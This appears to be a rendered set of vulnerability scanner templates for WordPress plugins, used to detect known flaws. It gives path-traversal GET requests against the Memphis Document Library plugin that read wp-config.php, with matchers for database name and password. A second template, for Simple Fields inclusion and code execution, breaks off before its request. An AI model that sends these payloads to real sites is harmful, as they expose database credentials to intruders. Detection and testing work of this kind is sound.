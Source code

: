 
# WordPress Memphis Document Library 3.1.5 - Local File Inclusion

## Description

- WordPress Memphis Document Library 3.1.5 is vulnerable to local file inclusion.
- severity - high
- tags - wpscan,wordpress,wp-plugin,lfi,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/mdocs-posts/?mdocs-img-preview=../../../wp-config.php
- {{BaseURL}}/?mdocs-img-preview=../../../wp-config.php

### Matchers

**Type - word**

- words
  1. DB_NAME
  2. DB_PASSWORD
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress Simple Fields 0.2 - 0.3.5 LFI/RFI/RCE

## Description

- WordPress Simple Fields 0.2 is vulnerable to local file inclusion, remote file inclusion, and remote code execution.
- severity - high
- tags - wp-plugin,lfi,packetstorm,wordpress

## Requests

- Method - GET

### URL
